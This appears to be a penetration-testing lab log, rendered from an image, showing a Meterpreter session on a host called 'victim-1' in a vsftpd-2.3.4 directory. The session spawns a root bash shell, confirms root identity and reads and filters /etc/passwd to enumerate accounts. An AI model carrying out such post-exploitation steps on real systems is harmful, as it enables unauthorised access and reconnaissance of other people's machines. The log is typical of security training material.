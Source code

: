 ```
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > shell
Process 21 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# cd /root
cd /root
root@victim-1:~#
```

```
root@victim-1:~# whoami
whoami
root
```

```
root@victim-1:~# groups root
groups root
root : root
```

```
root@victim-1:~# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

```
root@victim-1:~# cat /etc/passwd | grep -v /nologin
cat /etc/passwd | grep -v /nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
_apt:x:100:65534::/nonexistent:/bin/false
```
